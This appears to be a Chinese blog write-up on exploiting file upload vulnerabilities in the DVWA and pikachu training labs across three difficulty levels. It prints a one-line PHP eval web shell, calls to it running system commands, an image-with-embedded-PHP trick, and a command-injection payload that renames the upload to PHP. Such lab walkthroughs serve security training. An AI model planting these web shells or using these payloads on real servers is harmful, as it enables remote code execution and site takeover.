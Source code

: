 ```yaml
---
layout: post
title: 文件上传漏洞
subtitle: File Upload
date: 2023-08-01 23:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
  - 靶场实战
published: true
number headings: off
excerpt_separator: <!--more-->
---
```

dvwa、pikachu 靶场之文件上传漏洞
<!--more-->
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?> 
```

构造url: <http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=>

```php
phpinfo(); 
system('ls'); 
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```

### MEDIUM

将the.php改为the.jpg

![image.png](https://img.ghostliner.top/vt5Xwv.png)

burpsuit抓取request，修改文件后缀

### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```
